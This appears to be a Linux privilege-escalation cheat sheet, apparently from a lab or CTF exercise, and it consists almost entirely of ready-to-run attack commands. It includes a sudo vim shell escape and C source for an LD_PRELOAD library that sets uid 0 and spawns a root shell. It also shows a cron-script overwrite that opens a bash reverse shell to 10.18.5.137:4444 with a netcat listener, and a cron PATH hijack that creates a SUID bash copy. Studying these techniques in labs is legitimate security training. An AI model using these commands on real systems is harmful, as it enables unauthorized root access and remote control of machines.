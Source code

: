 ```
VIM
sudo vim -c ':!/bin/sh'
```
```
SUID/SUDO binaries - privilege escalation possibilities 
--SUDO/SUID binaries
----shell escape on binaries
----write access on binaries 
----exploit binaries 
```

## CATEGORY "SUDO" - ENVIRONMENT VARIABLES
```
sudo -l
cat /home/user/tools/sudo/preload.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so program-name-her
sudo LD_PRELOAD=/tmp/preload.so /usr/bin/find
#
```

## CATEGORY "CRON JOBS" - FILE PERMESSIONS 
```
cat /etc/crontab
locate overwrite.sh
cat /usr/local/bin/overwrite.sh
ls -lah /usr/local/bin/overwrite.sh
nano /usr/local/bin/overwrite.sh
bash -i >& /dev/tcp/10.18.5.137/4444 0>&1
```
```
nc -nvlp 4444
```

## CATEGORY "CRON JOBS" - PATH ENVIRONMENT VARIABLE
```
cat /etc/crontab
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
cd /home/user
pwd
nano overwrite.sh

#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash

chmod +x /home/user/overwrite.sh
cd tmp
ls -al
/tmp/rootbash -p
rm /tmp/rootbash
exit
```
